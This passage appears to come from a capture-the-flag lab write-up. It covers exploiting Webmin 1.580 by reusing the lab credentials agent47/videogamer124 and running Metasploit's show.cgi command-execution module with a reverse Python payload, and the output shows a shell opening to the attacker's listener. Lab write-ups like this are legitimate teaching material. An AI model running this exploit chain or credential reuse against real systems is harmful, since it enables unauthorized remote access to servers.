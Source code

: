 ![Desktop View](GameZoneWebmin.png)

We can reuse `agent47` credentials in this login form.

Looking for publicly available exploits for `webmin 1.580` i found 2 exploits.

```bash
❯ searchsploit webmin 1.580
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)                                                                                  | unix/remote/21851.rb
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                                                          | linux/webapps/47330.rb
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Both works under `metasploit`, so let's run it.

```bash
msfconsole
```

Once with the framework loaded, let's configure the exploit.

```bash
msf6 > use exploit/unix/webapp/webmin_show_cgi_exec
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set SSL false
SSL => false
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set USERNAME agent47
USERNAME => agent47
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PASSWORD videogamer124
PASSWORD => videogamer124
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set lhost 10.14.99.119
lhost => 10.14.99.119
```

Once with the exploit configured, we just have to run it.

```bash
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > run
[*] Started reverse TCP handler on 10.14.99.119:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Command shell session 1 opened (10.14.99.119:4444 -> 10.10.236.19:50356) at 2025-03-03 17:24:16 +0100
```
